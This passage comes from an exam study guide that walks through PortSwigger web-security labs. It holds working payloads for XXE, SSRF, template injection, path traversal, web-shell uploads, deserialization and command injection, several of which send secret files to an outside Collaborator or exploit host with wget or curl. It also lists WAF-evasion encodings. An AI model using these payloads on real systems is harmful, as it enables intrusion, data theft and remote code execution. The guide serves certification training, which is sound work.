Content-Type: text/plain;charset=UTF-8
Connection: close

{
 "email":"newemail@wiener.peter",
 "roleid": 42
}
```  

>The Hitchhiker's Guide to the Galaxy answer was [42](https://en.wikipedia.org/wiki/Phrases_from_The_Hitchhiker%27s_Guide_to_the_Galaxy#42_Puzzle)  

  

>Attacker ***identify*** the possible role ID of administrator role and then send this request with updated roleId to privilege escalate the current logged in user to the access role of administrator.  

  

[PortSwigger Lab: User role can be modified in user profile](https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile)  

### Drop Select a role  
  
>Escalation to administrator is sometimes controlled by a role selector GET request, by **dropping** the "Please select a role" GET request before it is presented to the user, the default role of **admin** is selected by back-end and access is granted to the admin portal.  

  

[PortSwigger Lab: Authentication bypass via flawed state machine](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-authentication-bypass-via-flawed-state-machine)  

### Original URL  

>Admin portal only accessible from internal. ***Identify*** if access control can be bypassed using header ```X-Original-URL```, observe different response to ```/admin``` endpoint requests depending on header value.  

```
X-Original-URL: /admin
```  

  
  
[PortSwigger Lab: URL-based access control can be circumvented](https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented)  
  
## CORS  

>***Identify*** in the source code the account details are requested with AJAX request.  

  

>Test is CORS configuration allow access to sub-domains using below test header. If response include the ```Access-Control-Allow-Origin``` header with the origin reflect it is vulnerable.  

```
Origin: http://subdomain.TARGET.NET
```  

>The target call subdomain to retrieve stock values, and the ```productid``` parameter is vulnerable to cross-site scripting (XSS).

  

>Place code in the exploit server body and deliver to victim to steal AJAX session token and API key.  

```html
<script>
    document.location="http://stock.TARGET.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://TARGET.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://EXPLOIT.NET/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```  

[PortSwigger Lab: CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)  
  
# Data Exfiltration  

## XXE Injections  

[Identify XML](#identify-xml)  
[Xinclude file read](#xinclude-file-read)  
[DTD Blind Out-of-band](#dtd-blind-out-of-band)  
[DTD Blind Error messages](#dtd-blind-error-messages)  
[SQL + XML + HackVertor](#sql--xml--hackvertor)  
[XXE perform SSRF](#xxe--ssrf)  
[XXE with SVG upload](#xxe-via-svg-image-upload)  
  
>File upload or user import function on web target use XML file format. This can be vulnerable to XML external entity (XXE) injection.  

### Identify XML

>Possible to find XXE attack surface in requests that do not contain any XML.  

>To ***Identify*** XXE in not so obvious parameters or requests, require adding the below and URL encode the **&** ampersand symbol to see the response.  

```xml
%26entity;
```  

>Below the server respond with indication that XML Entities are not allowed for security reasons.  


### Xinclude file read  

>Webapp **Check Stock** feature use server-side XML document that is server side parsed inside XML document, and request is not constructed of the entire XML document, it is not possible to use a hosted DTD file. Injecting an **XInclude** statement to retrieve the contents of ```/home/carlos/secret``` file instead.  

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///home/carlos/secret"/></foo>
```  

  

>URL encode the XXE payload before sending.  

```xml
<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/hostname"/></foo>
```  
  
[PortSwigger Lab: Exploiting XInclude to retrieve files](https://portswigger.net/web-security/xxe/lab-xinclude-attack)  

### DTD Blind Out-of-band  

>On the exploit server change the hosted file name to ```/exploit.dtd``` as the exploit file with **Document Type Definition (DTD)** extension, containing the following payload. The ```&#x25;``` is the Unicode hex character code for percent sign ```%```. **Parameter entities** are referenced using the **percent** character instead of the usual ampersand.  

```xml
<!ENTITY % file SYSTEM "file:///home/carlos/secret">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://COLLABORATOR.net/?x=%file;'>">
%eval;
%exfil;
```  
  
  

>Modify the file upload XML body of the request before sending to the target server.  

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE users [<!ENTITY % xxe SYSTEM "https://EXPLOIT.net/exploit.dtd"> %xxe;]>
<users>
    <user>
        <username>Carl Toyota</username>
        <email>carlos@hacked.net</email>
    </user>    
</users>
```  

  

[PortSwigger Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)  

>**Rabbit hole:** The submit feedback and screenshot upload on feedback is not to be followed by ***Neo*** down the Matrix.  
  
### DTD Blind Error messages  

>Trigger XML parsing errors in such a way that the error messages contain sensitive data. If the out of band to Collaborator payload above do not work test if the target will call a ```exploit.dtd``` file with invalid reference and return response in an error message.  

>Hosted on exploit server the ```/exploit.dtd``` file and body contents to ```file:///invalid/``` path.  

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```  

>On the stock check XML post request insert the payload between definition and first element.  

```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://EXPLOIT.net/exploit.dtd"> %xxe;]>
  <stockCheck>
    <productId>
	  1
	</productId>
	<storeId>
	  1
	</storeId>
</stockCheck>
```  

  

[PortSwigger Lab: Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)  

>**Rabbit hole:** The submit feedback and screenshot upload on feedback is for ***Neo*** to follow ***Trinity*** in the Matrix.  
  
### SQL + XML + HackVertor 

>The combination of vulnerabilities are ***identified*** in a XML Post body and inserting mathematical expression such as **7x7** into field and observing the evaluated value. Using this type of XML and SQL injection with WAF filter bypass via encoding may allow extract of sensitive data.  

  

>WAF detect attack when appending SQL query such as a UNION SELECT statement to the original store ID. Web application firewall (WAF) will block requests that contain obvious signs of a SQL injection attack.

```sql
<storeId>1 UNION SELECT NULL</storeId>
```  

>Bypass the WAF, Use Burp extension **[Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100)** to [obfuscate](#obfuscation) the SQL Injection payload in the XML post body. 

  

>Webapp return one column, thus need to concatenate the returned usernames and passwords columns from the users table.  
 
```xml
<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>
```  

  

>Below is sample SQLi payloads to read local file, or output to another folder on target.  

```sql
<@hex_entities>1 UNION all select load_file('/home/carlos/secret')<@/hex_entities>  

<@hex_entities>1 UNION all select load_file('/home/carlos/secret') into outfile '/tmp/secret'<@/hex_entities>
```  

[PortSwigger Lab: SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)  
  
## SSRF - Server Side Request Forgery  

[Absolute GET URL + HOST SSRF](#absolute-get-url--host-ssrf)  
[XXE + SSRF](#xxe--ssrf)  
[HOST Routing-based SSRF](#host-routing-based-ssrf)  
[HTML to PDF](#html-to-pdf)  
[SSRF Open Redirection](#ssrf-open-redirection)  
[Host Header Connection State + SSRF](#host-connection-state)  

>SSRF attack cause the server to make a connection to internal services within the organization, or force the server to connect to arbitrary external systems, potentially leaking sensitive data.  
  
>SSRF Sample payloads.  

```html
/product/nextProduct?currentProductId=6&path=https://EXPLOIT.net  

stockApi=http://localhost:6566/admin  

http://127.1:6566/admin  

Host: localhost
```  

>Alternative IP representation of ```127.0.0.1```:  
1. 2130706433  
2. 017700000001  
3. 127.1  
  
>Double URL encode characters in URL to **Obfuscate** the "a" by double-URL encoding it to ```%2561```, resulting in the bypass of blacklist filter.  

  

[PortSwigger Lab: SSRF with blacklist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)  
  
### Absolute GET URL + HOST SSRF

>***Identify*** SSRF by changing the ```HOST``` header to Collaborator and providing an absolute URL in the GET request line and observe the response from the Collaborator server.  

```html
GET https://TARGET.web-security-academy.net/
Host: COLLABORATOR.NET
```  

  

>Use the Host header to target 192.168.0.141 or ```localhost```, and notice the response give 302 status admin interface found. Append /admin to the absolute URL in the request line and send the request. Observe SSRF response.  

  

```
GET https://TARGET.net/admin/delete?csrf=cnHBVbOPl7Bptu3VCXQZh6MUYzMsEXgO&username=carlos HTTP/1.1
Host: 192.168.0.114
Cookie: session=PQcb5CMC9ECh5fBobuxSalaBdxyLis01
```  

[PortSwigger Lab: SSRF via flawed request parsing](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-ssrf-via-flawed-request-parsing)  
  
### SSRF redirect_uris  

>POST request to register data to the client application with redirect URL endpoint in JSON body. Provide a redirect_uris array containing an arbitrary white-list of callback URIs. Observe the redirect_uri.  

```html
POST /reg HTTP/1.1
Host: oauth-TARGET.web-security-academy.net
Content-Type: application/json
Content-Length: 206

{
"redirect_uris":["https://example.com"],
    "logo_uri" : "https://Collaborator.com",
	"logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
	
}  
```  

  

[PortSwigger Lab: SSRF via OpenID dynamic client registration](https://portswigger.net/web-security/oauth/openid/lab-oauth-ssrf-via-openid-dynamic-client-registration)  

### XXE + SSRF

>Exploiting XXE to perform SSRF attacks using stock check function that obtains sensitive data.  

```xml

<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://localhost:6566/latest/"> ]>
  <stockCheck>
    <productId>
      &xxe;
    </productId>
    <storeId>
      1
    </storeId>
  </stockCheck>  
```  

  

[PortSwigger Lab: Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)  
  
### HOST Routing-based SSRF  

>***Identify*** routing-based SSRF by altering the **host** header on request and observe the response. Routing-based SSRF via the Host header allow insecure access to a localhost Intranet.  

```
GET / HTTP/1.1
Host: 192.168.0.§0§
```  
  
  

>**Note:** Once access gained to the internal server admin portal, the response indicate the form requires a POST request and CSRF token, so we convert the GET request to POST as below.  

```html
POST /admin/delete HTTP/1.1
Host: 192.168.0.135
Cookie: session=TmaxWQzsf7jfkn5KyT9V6GmeIV1lV75E
Sec-Ch-Ua: "Not A(Brand";v="24", "Chromium";v="110"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://TARGET.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

csrf=ftU8wSm4rqdQ2iuSZUwSGmDnLidhYjUg&username=carlos
```  

[PortSwigger Lab: Routing-based SSRF](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-routing-based-ssrf)  

### HTML to PDF  

>**Identify** a PDF download function and the source code uses ```JSON.stringify``` to create html on download. This HTML-to-PDF framework is vulnerable to SSRF attack. Partial source code for JavaScript on the target ```downloadReport.js```.  

```JavaScript
function downloadReport(event, path, param) {

body: JSON.stringify({
  [param]: html
  }
  )
  
```  

```html
<div><p>Report Heading by </p>
```  

>Identify file download HTML-to-PDF convert function on target is vulnerable.  

```JavaScript
<script>
	document.write('<iframe src=file:///etc/passwd></iframe>');
</script>
```  

>Libraries used to convert HTML files to PDF documents are vulnerable to server-side request forgery (SSRF).  

[PortSwigger Research SSRF](https://portswigger.net/daily-swig/ssrf)  

>Sample code below can be injected on vulnerable implementation of HTML to PDF converter such as ```wkhtmltopdf``` to read local file (SSRF).  

>Thehackerish showing wkHTMLtoPDF exploitation using [root-me.org - Gemini-Pentest-v1](https://www.root-me.org/) CTF lab in the video [Pentest SSRF Ep4](https://youtu.be/Prqt3N5QU2Q?t=345) by editing the name of the admin profile with HTML content it is then generated server side by including remote or local files.  
  
  

```html
<html>
 <body>
  <script>
   x = new XMLHttpRequest;
   x.onload = function() {
    document.write(this.responseText)
   };
   x.open("GET", "file:///home/carlos/secret");
   x.send();
  </script>
 </body>
</html>
```  

>JSON POST request body containing the HTMLtoPDF formatted payload to read local file.  

```JSON
{
 "tableHtml":"<div><p>SSRF in HTMLtoPDF</p><iframe src='file:///home/carlos/secret' height='500' width='500'>"
}
```  

  

>Above the display name is injected with ```HTML``` payload and on export the HTML-to-PDF converter perform SSRF.  
  
>The PDF creator: wkhtmltopdf 0.12.5 is known for SSRF vulnerabilities, and in [HackTricks - Server Side XSS - Dynamic PDF](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf) there is cross site scripting and server side exploits documented.  
  
### SSRF Open Redirection  

>The target make **GET** request to the ***next product*** on the e-commerce site, using a **path** parameter. On the stockAPI POST request the value provided in body data is the partial path to internal system. The ***identification*** of this vulnerability is by testing various paths and observing the input path specified is reflected in the response **Location** header.  

  

>In this lab they state the admin interface is at ```http://192.168.0.12:8080/admin``` but in exam use the ```localhost:6566```.  
  
```
https://TARGET.net/product/nextProduct?currentProductId=1&path=http%3a//192.168.0.12%3a8080/admin
```  

>On the POST stock request, replace the StockAPI value with the partial path, not the absolute URL, from the ```nextProduct``` GET request URL as the value of the ```stockAPI``` parameter.  

```
stockApi=/product/nextProduct?currentProductId=1&path=http%3a//192.168.0.12%3a8080/admin
```  

>URL-encode payload  

```
stockApi=%2fproduct%2fnextProduct%3fcurrentProductId%3d1%26path%3dhttp%253a%2f%2f192.168.0.12%253a8080%2fadmin
```  

  

[PortSwigger Lab: SSRF with filter bypass via open redirection vulnerability](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)  
  
## SSTI - Server Side Template Injection  

[SSTI Identified](#ssti-identified)  
[Tornado](#tornado)  
[Django](#django)  
[Freemarker](#freemarker)  
[ERB](#erb)  
[Handlebars](#handlebars)  

>Use the web framework native template syntax to inject a malicious payload into a **{{input}}**, which is then executed server-side. Submitting invalid syntax will often result in error message that lead to ***identifying*** the template framework. Use PortSwigger [template decision tree](https://portswigger.net/web-security/images/template-decision-tree.png) to aid in ***identification***.  

### SSTI Identified  

>SSTI can be ***identified*** using the tool [SSTImap](https://github.com/vladko312/SSTImap). The limitations of this tool is that the template expression ```{{7*7}}``` results are sometimes only evaluated by another GET request or calling another function in the application, as the **output** is not directly reflected or echoed into the response where the template expression was posted. 

```bash
python /opt/SSTImap/sstimap.py --engine erb -u https://TARGET.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock --os-cmd "cat /home/carlos/secret"
```  

>POST request with the data param to test and send payload using SSTImap tool.  

```bash
python /opt/SSTImap/sstimap.py -u https://TARGET.net/product/template?productId=1 --cookie 'session=StolenUserCookie' --method POST --marker fuzzer --data 'csrf=ValidCSRFToken&template=fuzzer&template-action=preview' --engine Freemarker --os-cmd 'cat /home/carlos/secret'
```  

  

>SSTI payloads to manually ***identify*** vulnerability.  

```
${{<%[%'"}}%\.,
}}{{7*7}} 

{{fuzzer}}
${fuzzer}
${{fuzzer}}

${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
${foobar}


```  

### Tornado  

>***Identification*** of tornado template framework after testing injection with ```}}{{ 7*7}}```.  

  

>Tornado Template can be ***identified*** using a ```}}{{ 7*7}}``` payload that breakout of current expression and evaluate ```7*7```.  

```
}}

{{os.system('cat /home/carlos/secret')

blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('cat%20/home/carlos/secret')
```  

>The preferred name" functionality in the user account profile page is altered and on blog post comment the output displayed.  

  

>Output from reloading the comment previously saved by logged in user after changing the preferred display name.  

  

[Lab: Basic server-side template injection code context](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)  

### Django  

>Django Template uses ```debug``` tag to display debugging information.  

```
${{<%[%'"}}%\,
 
{{settings.SECRET_KEY}}
```  

  

[PortSwigger Lab: Server-side template injection with information disclosure via user-supplied objects](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects)  

### Freemarker  

>Freemarker Template Content-Manager (C0nt3ntM4n4g3r)  

```
${foobar}
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat /home/carlos/secret") }
```  

  

[PortSwigger Lab: Server-side template injection using documentation](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation)  

### ERB  

>Identify ERB template.  
```
<%= 7*7 %>
```  

>ERB Template documentation reveals that you can list all directories and then read arbitrary files as follows:  

```erb
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>

<%= system("cat /home/carlos/secret") %>
```

  
  
[PortSwigger Lab: Basic server-side template injection](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)  

### Handlebars  

>Handlebars Template can be identified by injecting below set of characters and not encoding them into the ```/?message=``` parameter. [SSTIMAP](https://github.com/vladko312/SSTImap) was not able to identify this handlebars SSTI vulnerability.  

```
${{<%[%'"}}%\,
```  

  

```
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('wget https://COLLABORATOR.net --post-file=/home/carlos/secret');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

>Before URL encoding the payload above, it is not required to remove newline breaks or spaces. The above payload will send the contents of ```/home /carlos/secret``` to Burp Collaborator.  

  

[PortSwigger Lab: Server-side template injection in an unknown language](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)  
  
[PortSwigger Research SSTI](https://portswigger.net/research/server-side-template-injection)  

>Note: ***Identify*** the Update forgot email template message under the admin_panel at the path /update_forgot_email.  
  
## File Path Traversal

>Directory traversal attacks allow the malicious actor to read file on the server. ***Identify*** web parameters such as ```filename=``` that are requesting files.  

1. Application blocks traversal sequences but treats the supplied filename as being relative to a absolute path and can be exploit with ```/etc/passwd```absolute path to target file payload.  
2. Images on target is loaded using ```filename``` parameter, and is defending against traversal attacks by stripping path traversal. Exploit using ```....//....//....//....//etc/passwd``` payloads.  
3. Using URL-encoded ```..%252f..%252f..%252fetc/passwd``` payload can bypass application security controls.  
4. Leading the beginning of the filename referenced with the original path and then appending ```/var/www/images/../../../etc/passwd``` payload at end bypasses the protection.  
5. Using a **null** byte character at end plus an image extension to fool APP controls that an image is requested, this ```../../../etc/passwd%00.png``` payload succeed.  
6. Windows OS accept both ```../``` and ```..\``` for directory traversal syntax, and as example retrieving ```/loadImage?filename=..\..\..\windows\win.ini``` on windows target to ***identify*** valid path traversal.  
7. PHP Wrapper filter vulnerability allow traversal bypass to result in remote code execution (RCE) critical. Using [PHP filter chain generator](https://github.com/synacktiv/php_filter_chain_generator) to get your RCE without uploading a file if you control entirely the parameter passed to a require or an include in PHP! See [Tib3rius YouTube demo](https://youtu.be/OGjpTT6xiFI?t=1019) ```python php_filter_chain.generator.py --chain '<?=`$_GET[0]`; ?>' | tail -n 1 | urlencode``` 
  
>Corresponding PortSwigger Directory traversal labs.  

1. [PortSwigger Lab: File path traversal, traversal sequences blocked with absolute path bypass](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)  
2. [PortSwigger Lab: File path traversal, traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)  
3. [PortSwigger Lab: File path traversal, traversal sequences stripped with superfluous URL-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)  
4. [PortSwigger Lab: File path traversal, validation of start of path](https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path)  
5. [PortSwigger Lab: File path traversal, validation of file extension with null byte bypass](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)  

   

### Admin Portal Files  

>On the admin portal ***identify*** that the images are loaded using **imagefile=** parameter. Test if vulnerable to directory traversal. The imagefile parameter is vulnerable to directory traversal path attacks, enabling read access to arbitrary files on the server.  

```html
GET /admin_controls/metrics/admin-image?imagefile=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
```  

>Note: Add the fuzzing path traversal payload from drop-down list option, ***Add from list ...***. Then set processing rule on the provided payload to replace the FILE place holder with reg-ex ```\{FILE\}``` for each of the attacks.  

  

>Burp Intruder provides a predefined payload list, as example **"Fuzzing - path traversal"**.  
  
[PortSwigger Academy File-path-traversal](https://portswigger.net/web-security/file-path-traversal)  

## File Uploads  
  
[Bypass Upload Controls](#bypass-upload-controls)  
[XXE via SVG Image upload](#xxe-via-svg-image-upload)  
[Remote File Inclusion](#remote-file-inclusion)  
[XSS SVG Upload](#xss-svg-upload)  

### Bypass Upload Controls  
  
>A vulnerable image upload function or avatar logo upload, can by exploited and security controls bypassed to upload content to extract sensitive data or execute code server side.  

>***Identify*** any type of file upload function.  

  

>A simple bypass technique is to specify **Content-Type** to value of ```image/jpeg``` and then uploading exploit.php file with the below payload. The code of the exploit.php file below will read the ```/home/carlos/secret``` sensitive information.  

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```  

>File upload vulnerabilities bypass techniques:  
  
1. Upload the file name and include obfuscated path traversal ```..%2fexploit.php``` and retrieve the content ```GET /files/avatars/..%2fexploit.php```  
2. Upload a file named, ```exploit.php%00.jpg``` with trailing null character and get the file execution at ```/files/avatars/exploit.php```  
3. Create **polygot** using valid image file, by running the command in bash terminal: ```exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" ./stickman.png -o polyglot2023.php```. Once polygot uploaded, view the extracted data by issue a GET request to the uploaded path ```/files/avatars/polyglot.php``` , and search the response content for the phrase ```START``` to obtain the sensitive data.  
4. Upload two different files. First upload ***.htaccess*** with Content-Type: ```text/plain```, and the file data value set to ```AddType application/x-httpd-php .l33t```. This will allow the upload and execute of second file upload named, ```exploit.l33t``` with extension ```;333t```.  
5. If target allow Remote File Include(RFI), upload from remote URL, then host and exploit file with the following GIF magic bytes: ```GIF89a; <?php echo file_get_contents('/home/carlos/secret'); ?>```. The file name on exploit server could read ```image.php%00.gif```.    
  
>Matching file upload vulnerable labs:  
  
1. [PortSwigger Lab: Web shell upload via path traversal](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal)  
2. [PortSwigger Lab: Web shell upload via obfuscated file extension](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension)  
3. [PortSwigger Lab: Remote code execution via polyglot web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)  
4. [PortSwigger Lab: Web shell upload via extension blacklist bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)  
  
  

### XXE via SVG Image upload  

>***Identify*** image upload on the blog post function that accept **svg** images, and observe that the avatars already on blog source code is **svg** extensions.  

>The content of the image.svg file uploaded:  

```svg
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///home/carlos/secret" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```  
  
  
  
[PortSwigger Lab: Exploiting XXE via image file upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)  

### Remote File Inclusion  

>RFI function on target allow the upload of image from remote HTTPS URL source and perform to validation checks, the source URL must be ```HTTPS``` and the file **extension** is check, but the MIME content type or file content is not validated.  

>Methods to bypass extension validation:  

1. Extension with varied capitalization, such as .```sVG```  
2. Double extension, such as ```.jpg.svg``` or ```.svg.jpg```  
3. Extension with a delimiter, such as ```%0a, %09, %0d, %00, #```. Other examples, ```file.png%00.svg``` or ```file.png\x0d\x0a.svg```  
4. Empty filename, ```.svg```  
5. Try to cut allowed extension with more than the maximum filename length.  

```
fileurl=https://EXPLOIT.net/images.sVg
```  
  
  
  
>I am missing some key info and need to ***identify*** PortSwigger research about RFI.  
  
### XSS SVG Upload  

>Uploading of SVG file that contains JavaScript that performs cross site scripting attack.  

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(255,0,0);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("XSS!");
   </script>
</svg>
```  
  
## Deserialization  

[CustomTemplate PHP](#customtemplate-php)  
[Burp Deserialization Scanner](#burp-deserialization-scanner)  
[YsoSerial](#ysoserial)  
  
### CustomTemplate PHP  

>Reading page source code and noticing comment mentioning **<!-- TODO: Refactor once /libs/CustomTemplate.php is updated -->**, this ***identify*** possible PHP framework and the Burp scanner ***identify*** serialized session cookie object after we logged in with stolen ```wiener:peter``` credentials.  

  

>Reviewing PHP source code by adding tilde ***~*** character at end of GET request ```https://target.net/libs/CustomTemplate.php~```, we notice the **destruct** method.  

  

>Original Decoded cookie 

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"bi0egmdu49lnl9h2gxoj3at4sh3ifh9x";}
```  

>Make new PHP serial CustomTemplate object with the **lock_file_path** attribute set to **/home/carlos/morale.txt**. Make sure to use the correct data type labels and length indicators. The 's' indicate string and the length.

```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```  

  
  
[PortSwigger Lab: Arbitrary object injection in PHP](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php)  

>**Note:** In BSCP exam not going to run this as it delete the file, but in exam read source code to ***identify*** the ```unserialize()``` PHP function and extract content out-of-band using PHPGGC.  

```
./phpggc Symfony/RCE4 exec 'wget http://Collaborator.com --post-file=/home/carlos/secret' | base64
```  

[PortSwigger Lab: Exploiting PHP deserialization with a pre-built gadget chain](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-php-deserialization-with-a-pre-built-gadget-chain)  
  
### Burp Deserialization Scanner  

>Intercept the admin panel page request and ***identify*** the serial value of the cookie named **admin-prefs**. This challenge is from the [Burp Practice exam](https://portswigger.net/web-security/certification/practice-exam).  

  

>Use below payload in the Deserialization scanner exploiting Java jar ysoserial command, to obtain remote code execution (RCE) when payload de-serialized on target.  
 
```
CommonsCollections3 'wget http://Collaborator.net --post-file=/home/carlos/secret'
```  

  

### YsoSerial  

>Below is ysoserial command line execution to generate base64 encoded serialized cookie object containing payload.  
  
>**IMPORTANT:** If you get error message when executing ```java -jar ysoserial <Payload>``` saying something in lines of ***java.lang.IllegalAccessError: class ysoserial.payloads.util.Gadgets***, the switch to alternative Java on Linux with following commands.  

```bash
java --version
update-java-alternatives --list
sudo update-java-alternatives --set /usr/lib/jvm/java-1.11.0-openjdk-amd64
java --version
```  

  
  
>Now execute ```ysoserial``` to generate base64 payload, using Java version 11. Replace session cookie with generated base64 payload and URL encode only the key characters before sending request.  

```bash
java -jar /opt/ysoserial/ysoserial.jar CommonsCollections4 'wget http://Collaborator.net --post-file=/home/carlos/secret' | base64 -w 0
```  

  

[PortSwigger Lab: Exploiting Java deserialization with Apache Commons](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons)  
  
## OS Command Injection

### Feedback  

>The target application **submit feedback** function require email value, and ***identifying*** blind OS command injection by appending ```||curl COLLABORATOR.net||``` bash command, we then can observe a request made to Collaborator.  
  
```bash
email=carlos@exam.net||curl+`whoami`.COLLABORATOR.net||
```

  

[PortSwigger Lab: Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)  
 
# Appendix  

>This section contain **additional** information to solving the PortSwigger labs and approaching the BSCP exam, such as the Youtube content creators, Burp speed scanning technique, python scripts and [Obfuscation](#obfuscation) techniques to bypass filters.   

[Obfuscation](#obfuscation)  
[Python Scripts](#python-scripts)  
[Focus Scanning](#focus-scanning)  
[Approach](#approach)  
[YouTube Channels](#youtube-training-playlist)  

## Obfuscation  

>Obfuscation is the action of making something obscure, unclear, or unintelligible.  

>URL replacing the period character ```.``` with encoded value of ```%2e```.  

>Double-encode the injecting payload.  
  
```
/?search=%253Cimg%2520src%253Dx%2520onerror%253Dalert(1)%253E
```  

>HTML encode one or more of the characters  

```html

```  

>XML encode for bypassing WAFs  

```xml
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
         999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```

>Multiple encodings together  

```html
<a href="javascript:&bsol;u0061lert(1)">Click me</a>
```  

>SQL CHAR  

```sql
CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)
```

[Obfuscating attacks using encodings](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings)

## Python Scripts 

>Python script to ***[identify](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/tree/main/python/identify)*** vulnerabilities in the exam and provide indicators of exploits.  

